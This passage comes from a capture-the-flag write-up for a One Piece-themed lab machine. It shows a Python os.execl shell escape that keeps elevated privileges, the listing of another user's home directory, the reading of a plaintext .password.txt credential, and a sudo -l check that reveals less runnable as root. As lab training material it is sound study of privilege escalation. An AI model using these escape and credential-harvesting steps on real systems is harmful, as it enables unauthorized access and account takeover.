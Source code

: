 Lol it's basically python! let's ask gtfobins

```bash
>>> import os; os.execl("/bin/sh", "sh", "-p")
$ whoami
7uffy_vs_T3@ch
$ id
uid=1001(M0nk3y_D_7uffy) gid=1001(luffy) euid=1000(7uffy_vs_T3@ch) groups=1001(luffy)
$ ls /home
luffy  teach
$ cd /home/teach
$ ls
luffy_vs_teach.txt
$ cat luffy_vs_teach.txt
This fight will determine who can take the One Piece and who will be the next Pirate King.
These 2 monsters have a matchless will and none of them can let the other prevail.
Each of them have the same dream, be the Pirate King.
For one it means: Take over the World.
For the other: Be the freest man in the World.
Each of their hit creates an earthquake felt on the entire island.
But in the end, Luffy thanks to his willpower won the fight.
Now, he needs to find the One Piece.
$ ls -al
total 56
drwxr-xr-x  7 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .
drwxr-xr-x  4 root           root  4096 Jul 26  2020 ..
-rw-------  1 7uffy_vs_T3@ch teach  334 Jul 26  2020 .ICEauthority
-rw-------  1 7uffy_vs_T3@ch teach    1 Aug 14  2020 .bash_history
-rw-r--r--  1 7uffy_vs_T3@ch teach  220 Jul 26  2020 .bash_logout
-rw-r--r--  1 7uffy_vs_T3@ch teach 3771 Jul 26  2020 .bashrc
drwx------ 11 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .cache
drwx------ 11 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .config
drwx------  3 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .gnupg
drwx------  3 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .local
-r--------  1 7uffy_vs_T3@ch teach   37 Jul 26  2020 .password.txt
-rw-r--r--  1 7uffy_vs_T3@ch teach  807 Jul 26  2020 .profile
drwx------  2 7uffy_vs_T3@ch teach 4096 Jul 26  2020 .ssh
-rw-r--r--  1 7uffy_vs_T3@ch teach    0 Jul 26  2020 .sudo_as_admin_successful
-r--------  1 7uffy_vs_T3@ch teach  479 Jul 26  2020 luffy_vs_teach.txt
$ cat .password.txt
7uffy_vs_T3@ch:Wh0_w1ll_b3_th3_k1ng?

```

Ah yes `willpower`...that's useful indeed

Now we can try privesc basics again...I highly suspect sudo to work this time

```bash
$ su 7uffy_vs_T3@ch
Password:
7uffy_vs_T3@ch@Laugh-Tale:~$ sudo -l
[sudo] password for 7uffy_vs_T3@ch:
Matching Defaults entries for 7uffy_vs_T3@ch on Laugh-Tale:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User 7uffy_vs_T3@ch may run the following commands on Laugh-Tale:
    (ALL) /usr/local/bin/less
7uffy_vs_T3@ch@Laugh-Tale:~$
```
